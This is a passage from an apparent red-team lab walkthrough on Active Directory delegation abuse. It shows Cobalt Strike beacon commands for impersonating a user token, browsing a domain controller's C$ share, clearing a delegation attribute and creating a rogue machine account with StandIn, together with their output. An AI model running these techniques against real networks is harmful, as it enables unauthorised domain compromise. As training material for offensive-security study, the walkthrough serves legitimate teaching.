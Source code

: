 ```
[+] LUID            : 0x6cb934

beacon> steal_token 4092
[+] Impersonated DEV\bfarmer

beacon> ls \\dc-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:44:08   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 16:09:55   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 10:51:51   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/12/2022 09:45:09   ProgramData
          dir     08/15/2022 15:23:23   Recovery
          dir     08/16/2022 12:37:38   Shares
          dir     09/05/2022 12:03:43   System Volume Information
          dir     08/15/2022 15:24:39   Users
          dir     09/12/2022 09:28:56   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 1kb      fil     08/15/2022 16:16:13   dc-2.dev.cyberbotic.io_sub-ca.req
 12kb     fil     09/05/2022 07:25:58   DumpStack.log
 12kb     fil     09/13/2022 09:25:49   DumpStack.log.tmp
 384mb    fil     09/13/2022 09:25:49   pagefile.sys
```
  

To clear up, simply remove the msDS-AllowedToActOnBehalfOfOtherIdentity entry on the target.
```
beacon> powershell Get-DomainComputer -Identity dc-2 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity
```
  

If you did not have local admin access to a computer already, you can resort to creating your own computer object.  By default, even domain users can join up to 10 computers to a domain - controlled via the _ms-DS-MachineAccountQuota_ attribute of the domain object.
```
beacon> powershell Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota

ms-ds-machineaccountquota
-------------------------
                       10

  

[StandIn](https://github.com/FuzzySecurity/StandIn) is a post-ex toolkit written by [Ruben Boonen](https://twitter.com/FuzzySec) and has the functionality to create a computer with a random password.

beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make

[?] Using DC    : dc-2.dev.cyberbotic.io
    |_ Domain   : dev.cyberbotic.io
    |_ DN       : CN=EvilComputer,CN=Computers,DC=dev,DC=cyberbotic,DC=io
    |_ Password : oIrpupAtF1YCXaw

[+] Machine account added to AD..
```
